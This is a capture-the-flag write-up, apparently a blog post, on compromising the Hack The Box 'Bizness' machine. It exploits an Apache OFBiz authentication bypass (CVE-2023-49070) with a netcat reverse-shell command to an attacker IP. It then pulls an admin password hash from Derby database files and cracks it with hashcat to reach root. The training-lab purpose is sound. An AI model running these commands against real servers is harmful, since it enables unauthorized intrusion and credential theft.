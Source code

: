 ```yaml
---
title: Hack the box Bizness pwned!
date: 2024-03-01 00:00:01 +0000
categories: [hack the box, machine]
tags: [hack the box, bizness, ofbiz, derby]
img_path: /assets/img/posts/
---
```


## Machine info

![Bizness info](htb-bizness-info.png)
*Bizness info*

## Annotations

>In this article we are going to assume the following ip addresses:
>
>Local machine (attacker, local host): 10.10.16.79
>
>Target machine (victim, Bizness): 10.10.11.252
{: .prompt-info}

## Enumeration

Let's go look for the open ports in the machine using `nmap`:

`sudo nmap -Pn -n -sS -p- --open -T5 --min-rate=5000 -oN nmap_initial.txt 10.10.11.252`

```
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
443/tcp   open  https
38657/tcp open  unknown
44495/tcp open  unknown
```

## Footprinting

We fine tune the scan to see if we can get more information about the running services:

`sudo nmap -Pn -n -sVC -p22,80,443,38657,44495 -oN nmap_versions.txt 10.10.11.252`

```
PORT      STATE  SERVICE    VERSION
22/tcp    open   ssh        OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 3e21d5dc2e61eb8fa63b242ab71c05d3 (RSA)
|   256 3911423f0c250008d72f1b51e0439d85 (ECDSA)
|_  256 b06fa00a9edfb17a497886b23540ec95 (ED25519)
80/tcp    open   http       nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Did not follow redirect to https://bizness.htb/
443/tcp   open   ssl/https  nginx/1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Did not follow redirect to https://bizness.htb/
| tls-nextprotoneg: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: organizationName=Internet Widgits Pty Ltd/stateOrProvinceName=Some-State/countryName=UK
| Not valid before: 2023-12-14T20:03:40
|_Not valid after:  2328-11-10T20:03:40
| tls-alpn: 
|_  http/1.1
38657/tcp closed unknown
44495/tcp open   tcpwrapped
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We can see that there is a web service running on port 80 pointing to `https://bizness.htb/`, so let's start there.
First of all, we add the machine address to our `/etc/hosts`:

`echo "https://bizness.htb/" | sudo tee -a /etc/hosts`

We browse to `https://bizness.htb/` to investigate the web:

![Bizness Incorporated web](htb-bizness-incorporated-web.png)
*Bizness incorporated web*

We can't do anything in the web, so we will fuzzing with `gobuster` to find hidden resources:

`gobuster dir -u https://bizness.htb -x php,txt,html -w /opt/SecLists/Discovery/Web-Content/raft-small-words.txt -k -b 301,302,403,404 | tee gobuster.txt`

And, we find the following resources:

```
/index.html           (Status: 200) [Size: 27200]
/control              (Status: 200) [Size: 34633]
```

Under `/control` we have `/control/login`, so we browse to `https://bizness.htb/control/login` and we find the following form:

![OFBiz login](htb-bizness-ofbiz-login.png)
*Bizness login*

We can see the [OFBiz](https://github.com/apache/ofbiz-framework) logo. 
[OFBiz framework](https://github.com/apache/ofbiz-framework) is an Apache open source ERP (Enterprise resource planning) system.

If we look at the very bottom of the page, we can see the [OFBiz](https://github.com/apache/ofbiz-framework) version:

![Bizness version](htb-bizness-ofbiz-version.png)
*Bizness version*

It's running the 18.12 version.
The current version it's a 18.12.12, so could be a little outdated.
If we look for vulnerabilities for the [OFBiz](https://github.com/apache/ofbiz-framework) 18.12 version, we can see that there is the [CVE-2023-49070](https://nvd.nist.gov/vuln/detail/CVE-2023-49070) that allows an authentication bypass in versions <= 18.12.10:

[OFBIz CVE-2023-49070 in github](https://github.com/search?q=CVE-2023-49070&type=repositories)

Seems very convenient for us, so we download a PoC and we try our luck.

## Foothold

> I used [This PoC](https://www.vicarius.io/vsociety/posts/apache-ofbiz-authentication-bypass-vulnerability-cve-2023-49070-and-cve-2023-51467-exploit) from [@kjakaba](https://www.vicarius.io/vsociety/sign/in?back=/users/jakaba) (thanks for the work! ;)).
>
> To be able to execute the [@kjakaba](https://www.vicarius.io/vsociety/sign/in?back=/users/jakaba)'s exploit, we need the [ysoserial-all.jar](https://github.com/frohoff/ysoserial) package.
{: .prompt-info}

We open a `netcat` listening on our side:
`nc -lvnp 12345`

And now, we run the exploit:

`python3 ofbiz_exploit.py --url https://bizness.htb --cmd 'nc -e /bin/bash 10.10.16.79 12345'`

> Seems that the PoCs that I tried don't work every time, and we may have to run it a few times, so be patient :P
{: .prompt-info}

And... We get shell!

### ofbiz

Fist of all, as always, it’s upgrading our tty:

```
script /dev/null -c bash
ctrl+z
stty raw -echo;fg
reset xterm
export TERM=xterm-256color
stty rows 56 columns 209
```

Now, we can get our user flag:

`cat /home/ofbiz/user.txt`

Seems that we can't do anything else with our new user.
As [OFBiz](https://github.com/apache/ofbiz-framework) by default uses the embedded database `derby` let's take a look at its files, in the `opt/ofbiz/runtime/data/derby/ofbiz/` path.

In `/opt/ofbiz/runtime/data/derby/ofbiz/seg0/c54d0.data` we have the crentials of the `admin` user:

```
cat c54d0.dat| grep -i password
                <eeval-UserLogin createdStamp="2023-12-16 03:40:23.643" createdTxStamp="2023-12-16 03:40:23.445" currentPassword="$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I" enabled="Y" hasLoggedOut="N" lastUpdatedStamp="2023-12-16 03:44:54.272" lastUpdatedTxStamp="2023-12-16 03:44:54.213" requirePasswordChange="N" userLoginId="admin"/>
```

`$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I` is a SHA-1 hash with a salt. The salt is the character `d`, and the hashed value is `uP0_QaVBpDWFeo8-dRzDqRwXQ2I`, besides `uP0_QaVBpDWFeo8-dRzDqRwXQ2I` is encoded in base64.

To crack this password, we need to decode `uP0_QaVBpDWFeo8-dRzDqRwXQ2I` from base64url to hex:

```
echo "uP0_QaVBpDWFeo8-dRzDqRwXQ2I" | tr '_-' '/+' | base64 -d 2>/dev/null | xxd -ps
b8fd3f41a541a435857a8f3e751cc3a91c174362
```

Now, we add the salt and store the string in the `hash.txt` file:

`echo -n "b8fd3f41a541a435857a8f3e751cc3a91c174362:d" > hash.txt`

And, now, we use hashcat to crack it:

`hashcat -a 0 -m 120 hash.txt /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt`

After a while, we will have the password for the `admin` user.
So, we will try if it is reused for the `root` user:

`su`

It works!
And we can get our system flag:

`cat /root/root.txt`

![Bizness pwned](htb-bizness-pwned.png)
*Bizness has been Pwned*

*Enjoy! ;)*

